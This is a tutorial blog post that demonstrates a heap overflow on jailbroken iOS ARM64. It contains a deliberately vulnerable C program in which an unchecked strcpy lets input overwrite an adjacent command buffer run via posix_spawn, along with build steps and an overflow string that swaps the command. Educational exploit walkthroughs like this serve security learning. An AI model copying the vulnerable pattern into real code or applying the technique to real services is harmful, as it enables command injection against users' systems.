 # heap overflow ios (ARM x64)

﷽

Let's Hack the Heap. Today we're diving into a simple but effective heap overflow vulnerability on `iOS ARM64`. This example runs on a jailbroken iPhone and shows how improper use of heap memory (via `strcpy`) can lead to memory corruption and even command injection. Let's get started!      

### requirements

To reproduce this PoC, we'll need:
- A jailbroken iPhone (or simulated)    
- Installed tools: `OpenSSH` - for remote access, `lldb` - for debugging (if you want deeper introspection)     
- `macOS + Xcode` (for compiling `iOS` binaries)      

### write vulnerable heap code

First of all we need vulnerable program. Here's our vulnerable program: `heapify.c`:     

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <spawn.h>
#include <sys/wait.h>

extern char **environ;

void run_cmd(char *cmd) {
  pid_t pid;
  char *argv[] = {"sh", "-c", cmd, NULL};
  int status;

  printf("Run command: %s\n", cmd);
  status = posix_spawn(&pid, "/bin/sh", NULL, NULL, argv, environ);

  if (status == 0) {
    printf("Child pid: %i\n", pid);
    if (waitpid(pid, &status, 0) != -1) {
      printf("Child exited with status %i\n", status);
    } else {
      perror("waitpid");
    }
  } else {
    printf("posix_spawn: %s\n", strerror(status));
  }
}

int main(int argc, char *argv[]) {
  if (argc <= 1) {
    printf("\x1B[31mUsage: ./heapify <username>\x1B[0m\n");
    exit(0);
  }

  char *name = malloc(64);
  char *command = malloc(64);

  strcpy(command, "date");

  // here vulnerable: no bounds checking
  strcpy(name, argv[1]);

  printf("\x1B[36mUser: %s is executing command \"%s\"\n", name, command);
  printf("\x1B[0m");

  run_cmd(command);
  return 0;
}
```

What's going on here?
- we're allocating two heap buffers: `name` and `command`, both `64` bytes.     
- then we copy user input (`argv[1]`) into `name` using `strcpy()` - with no size check:    

```cpp
strcpy(name, argv[1]);
```

- this means if user input is longer than `64` bytes, it will overflow into adjacent heap memory.     
- and guess what's next to `name`? Our `command` buffer.     
- if we can overwrite command, we can change what shell command gets executed. Boom      

### compilation for iOS

Since `system()` is restricted in newer `iOS` SDKs, we use `posix_spawn()` to execute shell commands. Let's now compile the vulnerable binary from macOS:    

```bash
clang -g heapify.c -o heapify \
-isysroot /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/SDKs/iPhoneOS14.4.sdk \
-arch arm64 -mios-version-min=9.0 \
-fno-stack-protector
```

Explanation:    
`-g`- includes debug symbols for reverse engineering    
`-isysroot` - points to the `iOS` SDK      
`-arch arm64` - targets `arm64` (`iPhone` CPU)     
`-mios-version-min=9.0` - compatible with older `iOS` versions     
`-fno-stack-protector` - disables stack canaries (not needed here, but often used for `pwn` challenges)     

### transfer and prepare the binary

Now copy the binary to our device and sign it:     

```bash
scp heapify root@<iphone-ip>:/var/root/
ssh root@<iphone-ip>
chmod +x heapify
ldid -S heapify
```

once signed, you can run it normally from the terminal (e.g., via `SSH`):      

```bash
iPhone:/test root#
iPhone:/test root# chmod +x heapify
iPhone:/test root# ldid -S heapify
iPhone:/test root# ./heapify cocomelonc
user cocomelonc is executing command "date"
Run command: date
Child pid: 1955
Fri Mar 14 10:15:27 +05 2025
Child exited with status 0 
iPhone:/test root#
```

![img](./img/2025-05-10_18-01.png)     

Everything looks good. The command `date` is executed as expected. We might want to take the binary apart to see that the `malloc` method is actually at work here and giving out `x40` (`64`) bytes of memory. `strcpy` function is clearly at risk:     

![img](./img/2025-05-10_18-11.png)    

[GDB to LLDB command map](https://lldb.llvm.org/use/map.html)     

But now let's dig into the vulnerability.    

### heap overflow analysis

As as wrote before behind the scenes, this line is the culprit:     

```cpp
strcpy(name, argv[1]);
```

it copies unbounded user input into a `64-byte` buffer on the heap.     

Let's try fuzzing it:    

```bash
./heapify AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJKKKKKKKKKKLLLLLLLLLL
```

this input is way over `64` bytes, and it clearly overflows into adjacent memory. The program still runs, but the value of `command` may now be changed due to heap memory corruption.     

![img](./img/2025-05-10_18-12.png)     

### overwrite the command

The input can go up to about the middle of the letter `G` as you can see.Let's use our overflow to change the default command from `date` to `ls`:    

```bash
./heapify AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGls
```

Result:    

![img](./img/2025-05-10_18-37.png)    

Boom! Our command injection successful - we hijacked the `command` buffer using a heap overflow.     

Heap overflows are just as powerful as stack overflows - especially when you have adjacent data like command buffers, pointers, or vtables.     
In a real-world scenario, this kind of bug can lead to command injection, privilege escalation, or even arbitrary code execution, especially in insecure daemons or background services.     

### references

[GDB to LLDB command map](https://lldb.llvm.org/use/map.html)    
